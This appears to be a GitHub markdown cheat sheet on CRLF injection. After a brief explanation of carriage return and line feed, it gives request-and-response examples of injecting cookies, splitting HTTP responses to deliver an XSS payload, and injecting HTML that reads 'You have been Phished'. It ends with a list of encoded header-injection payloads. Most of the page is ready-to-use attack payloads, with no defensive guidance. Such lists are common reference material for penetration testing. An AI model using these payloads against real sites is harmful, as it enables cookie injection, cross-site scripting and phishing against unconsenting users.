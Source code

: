 ```yaml
---
title: CRLF Attack and Cheat Sheat
published: true
---
```


>The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). They’re used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Exploits

### Add a Cookie
**Request**
```
http://www.xyz.net/%0D%0ASet-Cookie:mycookie=myvalue
```

**Response**
```
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.xyz.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

### Add a Cookie - XSS
**Request**
```
http://xyz.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```
**Response**
```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://xyz.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```
### Write HTML
**Request**
```
http://www.xyz.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```
**Response**
```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```
## Cheatsheat
```
/%%0a0aSet-Cookie:crlf=injection
/%0aSet-Cookie:crlf=injection
/%0d%0aSet-Cookie:crlf=injection
/%0dSet-Cookie:crlf=injection
/%23%0aSet-Cookie:crlf=injection
/%23%0d%0aSet-Cookie:crlf=injection
/%23%0dSet-Cookie:crlf=injection
/%25%30%61Set-Cookie:crlf=injection
/%25%30aSet-Cookie:crlf=injection
/%250aSet-Cookie:crlf=injection
/%25250aSet-Cookie:crlf=injection
/%2e%2e%2f%0d%0aSet-Cookie:crlf=injection
/%2f%2e%2e%0d%0aSet-Cookie:crlf=injection
/%2F..%0d%0aSet-Cookie:crlf=injection
/%3f%0d%0aSet-Cookie:crlf=injection
/%3f%0dSet-Cookie:crlf=injection
/%u000aSet-Cookie:crlf=injection
```
